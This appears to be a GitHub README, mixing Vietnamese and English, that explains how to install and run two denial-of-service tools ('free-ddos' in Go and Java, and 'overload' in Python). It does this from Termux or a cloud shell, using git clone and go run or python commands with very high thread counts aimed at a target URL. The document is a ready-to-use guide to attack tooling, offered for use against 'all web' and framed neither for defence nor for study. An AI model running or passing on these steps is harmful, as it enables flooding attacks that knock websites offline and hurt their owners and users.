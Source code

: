 # Setup termux
pkg update

pkg upgrade

pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt update

sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/Xuan-QuyenDepzaivailon/free-ddos

cd free-ddos
# Chế độ Get sài cho web https://
go run ddosbyxq.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post xài cho web http://
go run ddosbyxq.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web :))

java ddosbyxq.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập

├───TIME:1000

└───THREADS:20000

└───URL:link web

